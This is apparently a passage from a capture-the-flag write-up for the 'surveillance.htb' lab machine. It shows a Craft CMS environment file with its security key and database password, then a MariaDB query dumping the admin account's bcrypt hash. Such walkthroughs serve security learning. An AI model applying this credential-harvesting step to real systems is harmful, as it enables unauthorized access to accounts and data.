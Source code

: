 ```console

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```

This reveals a hash:

```mysql
MariaDB [craftdb]> select * from users;
select * from users;
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | active | pending | locked | suspended | admin | username | fullName  | firstName | lastName | email                  | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |      1 |       0 |      0 |         0 |     1 | admin    | Matthew B | Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe | 2023-10-17 20:42:03 | NULL               | NULL                    |              NULL | 2023-10-17 20:38:18  | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2023-10-17 20:38:29    | 2023-10-11 17:57:16 | 2023-10-17 20:42:03 |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
1 row in set (0.001 sec)
```
